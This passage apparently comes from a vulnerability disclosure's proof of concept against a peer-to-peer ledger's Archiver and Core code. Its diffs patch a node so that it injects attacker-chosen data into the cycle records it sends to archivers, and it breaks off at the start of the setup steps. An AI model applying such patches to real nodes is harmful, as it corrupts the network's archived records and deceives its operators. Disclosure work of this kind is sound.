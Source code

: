 **Diff 2 - Enabling Cycle Modification**

```diff
diff --git a/src/p2p/Comms.ts b/src/p2p/Comms.ts
index b74eb8fe..8f2c9324 100644
--- a/src/p2p/Comms.ts
+++ b/src/p2p/Comms.ts
@@ -30,6 +30,8 @@ import { nodeListFromStates } from './Join'
 
 /** ROUTES */
 
+export let modifyCycle: {shouldModify: boolean, cycle: P2P.CycleCreatorTypes.CycleRecord } = { shouldModify: false, cycle: null }
+
 type GossipReq = P2P.P2PTypes.LooseObject
 
 // const gossipInternalRoute: P2P.P2PTypes.InternalHandler<GossipReq> = async (
```

**Diff 3 - Injecting Malicious Data into the Cycle**

```diff
diff --git a/src/p2p/Archivers.ts b/src/p2p/Archivers.ts
index 8ac9ac3d..ca0e9c48 100644
--- a/src/p2p/Archivers.ts
+++ b/src/p2p/Archivers.ts
@@ -837,6 +837,7 @@ export function sendData() {
       cyclesWithMarker.push({
         ...cycleRecords[i],
         marker: computeCycleMarker(cycleRecords[i]),
+        ...(Comms.modifyCycle.shouldModify ? Comms.modifyCycle.cycle : {})
       })
     }
     // Update lastSentCycle
@@ -891,6 +892,7 @@ export function sendData() {
             cyclesWithMarker.push({
               ...cycleRecords[i],
               marker: computeCycleMarker(cycleRecords[i]),
+              ...(Comms.modifyCycle.shouldModify ? Comms.modifyCycle.cycle : {})
             })
           }
           // Update lastData
```

***

### Executing the PoC

#### 1. Setup

1.  In the Archiver repo:

    ```sh
    npm link
    ```
2.  In the Core repo:
